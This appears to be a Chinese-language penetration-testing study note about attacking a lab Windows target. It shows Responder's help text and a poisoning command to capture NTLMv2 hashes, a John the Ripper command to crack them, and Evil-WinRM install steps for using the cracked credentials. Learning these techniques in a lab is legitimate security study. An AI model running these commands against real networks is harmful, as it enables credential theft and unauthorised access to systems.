 ### Responder 
[Kali_default_tools](https://www.kali.org/tools/responder/)
```
responder -h                                                                 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -r -f
or:
responder -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```
```
responder -I [選擇網卡] -wrf
```

## Responder 對靶機進行測試
![image](https://github.com/JackShih200190/Penetration_Test_Learn/assets/55253641/22c8fa3a-de34-403c-b744-96735e3cd8e3)

讓靶機發送一個假的請求到Kali端 一定會回傳錯誤，但因為Responder的監聽是啟動的，就會抓到一些NTLM的認證值

將我們抓到的登入Hash值進行破解
利用john這個破解工具並且針對NTLMv2來進行破解
```cmd
john --format=netntlmv2 hash.txt 
```

![image](https://github.com/JackShih200190/Penetration_Test_Learn/assets/55253641/123ddb73-3cb3-49e8-9c82-e09c61537a56)

我們得到了登入的帳號密碼利用WinRM的漏洞來進行攻擊

[WinRM預設Port](https://learn.microsoft.com/zh-tw/troubleshoot/windows-server/networking/service-overview-and-network-port)
[Evil-Winrm](https://www.kali.org/tools/evil-winrm/)
#### Evil-Winrm 安裝方式
```cmd
sudo gem install winrm winrm-fs stringio logger fileutils
git clone https://github.com/Hackplayers/evil-winrm.git
```
